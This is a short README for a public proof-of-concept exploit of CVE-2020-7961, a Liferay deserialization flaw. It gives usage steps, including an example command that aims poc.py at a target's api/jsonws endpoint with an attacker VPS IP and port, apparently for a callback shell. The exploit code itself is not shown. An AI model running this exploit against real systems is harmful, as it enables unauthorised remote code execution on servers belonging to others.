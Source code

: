 
## Credit goes to @mzer0one

# CVE-2020-7961-POC

All the information provided on this site are for educational purposes only. The site and authors of the repository is no way responsible for any misuse of the information.
# Liferay-Deserialize-POC
1. Edit the content of the LifExp.java file to suit your target os system
2. Run python poc.py -h for help

example: ```python poc.py -t https://target.com/ -u api/jsonws -l your_vps_ip -p your_designated_port```


